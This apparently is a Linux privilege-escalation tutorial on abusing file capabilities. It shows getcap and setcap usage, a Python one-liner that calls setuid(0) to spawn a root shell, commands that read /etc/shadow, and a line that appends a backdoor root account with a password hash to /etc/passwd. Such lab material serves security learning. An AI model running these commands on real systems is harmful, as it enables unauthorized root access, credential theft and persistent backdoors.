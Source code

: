 Linux Capabilities
                            
Linux capabilities are a security feature that allows fine-grained control over root privileges. Instead of granting a process full root access, specific privileges can be assigned, limiting potential security risks.

1. Checking Capabilities of a Binary
To check if a binary has any special capabilities assigned:
```
getcap /usr/bin/ping
```
2. Finding All Binaries with Capabilities
To list all files that have capabilities assigned:
```
getcap -r / 2>/dev/null
```

 Exploiting Capabilities for Privilege Escalation
 
4.1 Exploiting cap_setuid (Set User ID)
If cap_setuid+ep is granted to a binary like Python, it can be used to escalate privileges:

Granting the Capability
```
setcap cap_setuid+ep /usr/bin/python3.9
```
Finding Binaries with this Capability
```
getcap -r / 2>/dev/null
```
Confirming the Capability is Applied
```
getcap /usr/bin/python3.9
```
Exploiting Python3.9 for Privilege Escalation
```
/usr/bin/python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
Removing the Capability (For Security)
```
setcap -r /usr/bin/python3.9
```
4.2 Exploiting cap_dac_override (Bypass File Permissions)
If a binary has cap_dac_override+ep, it can read sensitive files like /etc/shadow.

Checking File Permissions
```
ls -l /etc/shadow
cat /etc/shadow
```
Granting the Capability
```
setcap cap_dac_override+ep /usr/bin/python3.9
```
Finding Binaries with this Capability
```
getcap -r / 2>/dev/null
```
Confirming the Capability is Applied
```
getcap /usr/bin/python3.9
```
Reading Sensitive Files Using Python
```
/usr/bin/python3.9 -c 'print(open("/etc/shadow").read())'
python3 -c 'print(open("/etc/shadow").read())'
```
Appending a New Root User to /etc/passwd
```
/usr/bin/python3.9 -c 'open("/etc/passwd", "a").write("root2:$1$jJQZ0icg5UMXbDzX.tkUwZ8pyY9sQy.:0:0:root:/root:/bin/bash\n")'
```
Removing the Capability
```
setcap -r /usr/bin/python3.9
```
